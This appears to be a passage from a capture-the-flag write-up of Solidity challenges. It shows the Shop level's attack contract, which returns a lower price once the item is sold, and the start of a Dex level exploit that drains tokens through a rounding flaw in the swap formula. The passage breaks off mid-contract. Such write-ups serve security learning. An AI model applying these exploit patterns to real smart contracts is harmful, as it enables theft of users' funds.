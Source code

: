 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Shop.sol";

contract Test {
    Shop public shp;
    uint256 counter = 0;

    constructor() public {
        shp = Shop(0xC0cfe0098085BB0b7206b40d3e7abD657E2183ab);
    }

    function price() external view returns (uint256) {
        bool sold = shp.isSold();
        if (!sold) return 100;
        else return 50;
    }

    function callBuy() public {
        shp.buy();
    }
}
```

Let’s check the price to confirm whether our logic worked or not

```jsx
> x = await contract.price()

> x.toString()
< '50'
```

# 22. Dex

It’s more of a mathematics question, we somehow have to make the **swap_amount** more than the amount of tokens we passed to the `swap()` so that, for example, we get 11 tokens in exchange of 10. What if we pass all our token2 to the contract using the `add_liquidity()` and then swap all remaining 10 token1 for token2? The return value of swap will be $(10 * 110)/100$ which is equal to 11! If we continue this process we will able to drain all the token1 of the contract. In this logic there is a little case to handle in the end but it’s not that tough to understand. Here is the hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Dex.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.0/contracts/token/ERC20/IERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.0/contracts/token/ERC20/ERC20.sol";

contract Test {
    Dex public dex;
    address token1 = 0xFCA0F3B28AAf8622ba232ac17e8D519a07e5c40B;
    address token2 = 0xac3F86A90a1460AfF13a31eC3F4B31145D8bEB6b;
    address dexContract = 0x0662FE0BB0904C2dd80ffab818Ac23e3176664c0;
    address myWallet = 0xB70B5095274a6255890624e026a9C0e5c950f7C3;

    constructor() public {
        dex = Dex(dexContract);
        dex.approve(dexContract, 200);
        dex.approve(token1, 200);
```
